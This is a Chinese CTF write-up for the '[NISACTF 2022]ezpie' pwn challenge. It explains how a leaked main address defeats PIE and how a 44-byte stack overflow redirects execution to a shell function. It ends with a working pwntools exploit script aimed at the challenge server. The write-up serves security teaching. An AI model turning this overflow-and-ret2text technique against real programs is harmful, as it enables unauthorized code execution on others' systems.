






# [NISACTF 2022]ezpie

## 基本信息

- 题目名称：[NISACTF 2022]ezpie
- 题目链接：https://www.nssctf.cn/problem/2059
- 考点清单：PIE 保护、栈溢出、ret2text
  
## 一、看到什么

### 文件分析


- 32位  ELF 可执行程序
- 无栈保护（无 canary）开启 PIE 保护
- 运行程序会直接给出一个泄露地址

### 泄露地址分析





- 主函数下断点运行程序
- 泄露的地址是 PIE 随机加载之后的真实地址
- 因此可以用 “真实地址 - IDA 中的偏移” 计算出运行的 PIE 基址

### IDA 分析



- vuln 函数：40 字节缓冲区 可读 80 字节
- 存在栈溢出漏洞



- 存在获取 shell 函数 
- shell 偏移 `0x80F`
- 覆盖到返回地址 offset = buf[40] + ebp[4] = 44 字节



- main 函数偏移 `0x770` 

## 二、想到什么解题思路

- 程序直接泄露了 main 的真实地址 leak_main
- 用 PIE_base = leak_main - main_offset 算出本次运行的 PIE 基址
- 计算 shell_addr = PIE_base + shell_offset
- 栈溢出覆盖返回地址跳到 shell 获取 shell

```
PIE_base = leak_main - main_offset
shell_addr = PIE_base + shell_offset
```

## 三、Payload

```python
from pwn import *
io = remote('node5.anna.nssctf.cn', 26058)

MAIN_OFF  = 0x770
SHELL_OFF = 0x80F

io.recvuntil(b'OHHH!,give you a gift!\n')
leak_main = int(io.recvline().strip(), 16)

base  = leak_main - MAIN_OFF
shell = base + SHELL_OFF

payload = b'A' * 44 + p32(shell)

io.sendlineafter(b'Input:', payload)
io.interactive()

```

